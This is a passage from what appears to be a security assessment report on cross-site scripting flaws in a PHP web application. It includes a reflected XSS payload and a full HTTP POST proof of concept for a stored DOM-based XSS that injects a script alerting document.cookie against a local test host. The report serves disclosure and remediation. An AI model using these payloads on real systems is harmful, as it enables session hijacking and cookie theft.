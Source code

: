 ```
id=<script>alert(document.cookie)</script>
```
###### References:
[https://portswigger.net/web-security/cross-site-scripting/reflected](https://portswigger.net/web-security/cross-site-scripting/reflected)


-------------


##### 6. [XSS] Cross-site scripting (stored DOM-based)
###### Severity:
Medium
###### Description:
Stored DOM-based vulnerabilities arise when user input is stored and later embedded into a response within a part of the DOM that is then processed in an unsafe way by a client-side script. An attacker can leverage the data storage to control a part of the response (for example, a JavaScript string) that can be used to trigger the DOM-based vulnerability.
DOM-based cross-site scripting arises when a script writes controllable data into the HTML document in an unsafe way. An attacker may be able to use the vulnerability to construct a URL that, if visited by another application user, will cause JavaScript code supplied by the attacker to execute within the user's browser in the context of that user's session with the application.
###### PoC:
```
POST /send.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 76
Cache-Control: max-age=0
sec-ch-ua: "Not.A/Brand";v="99", "Chromium";v="136"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: it-IT,it;q=0.9
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/send.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=6593cb04eea292d0a2a2275b764ded90
Connection: keep-alive

agent=&title=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&message=a
```
###### References:
[https://portswigger.net/kb/issues/00200312_cross-site-scripting-stored-dom-based](https://portswigger.net/kb/issues/00200312_cross-site-scripting-stored-dom-based)
